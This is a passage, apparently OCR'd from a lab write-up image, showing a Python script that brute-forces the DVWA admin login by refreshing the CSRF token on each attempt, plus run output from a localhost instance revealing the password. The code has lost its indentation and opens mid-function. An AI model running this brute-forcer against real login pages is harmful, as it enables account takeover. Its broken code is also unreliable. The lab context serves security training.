 	# return the brute force result
	return success

	# Get the intial CSRF token from the target site
	page_source = target_page.text
	soup = Soup(page_source, features="lxml");
	csrf_token = soup.findAll(attrs={"name": "user_token"})[0].get('value')

	# Display before attack
	print('DVWA URL' + url)
	print('CSRF Token='+ csrf_token)

	# Loop through our provided password file
	with open(filename) as f:
	print('Running brute force attack...')
	for password in f:

	# strip whitespace
	password = password.strip()
	
	# setup the payload
	payload = {'username': 'admin', 'password': password, 'Login': 'Login', 'user_token': csrf_token}
	r = s.get(url, cookies=cookie, params=payload)
	success = checkSuccess(r.text)

	if not success:
	# if it failed the CSRF token will be changed. Get the new one
	soup = Soup(r.text, features="lxml")
	csrf_token = soup.findAll(attrs={"name": "user_token"})[0].get('value')
	else:
	# Success! Show the result
	print('Password is: ' + password)
	break

	# We failed, bummer. 
	if not success:
	print('Brute force failed. No matches found.')
	```

	```shell
	# running python script
	python3 csrf_script.py passwords.txt "Welcome to the password protected area admin"
	DVWA URLhttp://127.0.0.1:42001/vulnerabilities/brute/index.php
	CSRF Token=09377057fe6a3b73fe3eb82c6ecce061
	Running brute force attack...
	Password is: password
	```




